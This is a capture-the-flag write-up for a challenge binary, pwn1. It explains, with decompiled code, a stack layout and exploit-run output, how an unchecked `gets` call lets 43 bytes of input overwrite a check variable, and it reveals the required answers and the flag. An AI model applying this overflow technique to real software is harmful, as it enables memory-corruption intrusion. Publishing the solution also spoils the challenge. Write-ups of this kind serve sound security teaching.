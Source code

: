 # pwn1 Writeup

## Steps:
1. Open in ghidra and analyze
	- Notice the first 2 questions have specific strings required as answers
    ```
  puts("What... is your name?");
  fgets(input,0x2b,_stdin);
  iVar1 = strcmp(input,"Sir Lancelot of Camelot\n"); # First Input
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,_stdin);
  iVar1 = strcmp(input,"To seek the Holy Grail.\n"); # Second Input
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
    ```
    - Notice another input captured with `gets`, which is a function commonly used for exploits
    ```
  puts("What... is my secret?");
  gets(input);
  if (secret == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
    ```
2. Look at the stack variable layout
    ```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     00010780(R), 
                                                                                                   000108df(*)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  

    ```
input is at `Stack[-0x43]` and the variable we want to change (renamed to 'secret') is at `Stack[-0x18]`.
`0x43 - 0x18 = 0x2b` which is 43 bytes in decimal. Since we can write any number of bytes to input, we can access and change 'secret'
3. Create a payload overwriting the 43 bytes from 'input' to 'secret' and set 'secret = dea110c8`
4. Send payloads to process

## Solution:
```
$ python3 ex_pwn.py
[+] Starting local process './pwn1': pid 53621
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$  

```
